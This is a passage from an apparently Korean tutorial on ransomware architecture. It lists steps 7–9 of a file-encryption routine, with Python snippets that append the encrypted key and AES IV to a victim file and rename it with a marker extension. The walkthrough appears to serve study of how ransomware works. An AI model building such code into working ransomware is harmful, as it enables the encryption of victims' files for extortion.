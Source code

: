     ![](arch_of_ransomware_part2/Untitled%204.png)

7. 파일의 끝에 암호화된 랜덤 키를 추가한다.

    ```python
    input_file.seek(0, os.SEEK_END)
    input_file.write(encryptedKey.encode())
    ```

8. 파일의 끝에 AES IV(initialization vector)를 추가한다.

    ```python
    input_file.seek(0, os.SEEK_END)
    input_file.write(cipher_encrypt.iv)
    ```

9. 암호화가 된 지 식별할 수 있도록 이름을 바꾼다.

    ```python
    input_file.close()
      os.rename(file, file + "." + cryptoName)
    ```

![](arch_of_ransomware_part2/Untitled%205.png)
